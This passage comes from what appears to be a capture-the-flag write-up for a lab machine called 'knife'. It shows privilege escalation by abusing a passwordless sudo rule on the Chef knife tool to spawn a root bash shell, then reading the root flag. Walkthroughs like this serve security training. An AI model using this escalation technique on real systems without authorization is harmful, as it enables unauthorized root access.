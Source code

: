 ## Root Flag

### Privilege Escalation

First we have to check if there is any **sudo** commands this user can execute.

```console
james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

We can see that this user is allowed to use `/usr/bin/knife`. Let's do some research on `knife`.


After digging around Knife's documentation, we find a command that can execute Ruby code.

![knife](./images/knife.png)
**Figure 2:** `exec` command from Knife's documentation

Since we can execute code, we can try to spawn a shell by executing `exec "/bin/bash -i"`.

```console
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/bash -i"'
sudo /usr/bin/knife exec -E 'exec "/bin/bash -i"'
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/# cat root/root.txt
cat root/root.txt
069addd9941d215b9215c54bc5588f33
```
Hooray!! We got root.

